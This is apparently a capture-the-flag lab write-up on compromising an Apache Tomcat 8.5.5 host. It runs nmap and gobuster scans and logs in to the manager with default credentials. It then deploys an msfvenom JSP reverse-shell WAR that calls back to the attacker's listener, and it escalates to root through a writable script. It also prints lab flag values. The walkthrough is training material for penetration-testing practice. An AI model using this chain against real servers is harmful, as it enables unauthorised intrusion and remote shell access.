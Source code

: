 Based nmap scan after deploying
```
sudo nmap -A -v 10.10.67.115

 PORT     STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST

```
2-nd phrase of scanning:

```
$ gobuster dir -u http://10.10.67.115:8080 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.67.115:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```
 after going and cenceling login form of page http://10.10.67.115/manager/ 

Page throws 401 Error and login and password: tomcat:s3cret

After getting admin pass and login i logged in to http://10.10.67.115/manager/ and deployed reverse shell:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.23.140.77 LPORT=4546 -f war >exp.war

```

then used netcat to wait for payload
`nc -lvnp 4546`



after creating payload i deployed it and activeted it

`http://10.10.67.115:8080/exp`


```
listening on [any] 4546 ...
connect to [10.23.140.77] from (UNKNOWN) [10.10.67.115] 35296

ls /home
jack
cd /home/jack
ls -al
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jul 10 07:51 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
cat user.txt
39400c90bc683a41a8935e4719f181bf```

 
now lets use Privilege Escalation to get root flag


```
echo "
#!/bin/bash
cat /root/root.txt >out.txt"> id.sh

$./id.sh 
$cat out.txt
d89d5391984c0450a95497153ae7ca3a
```

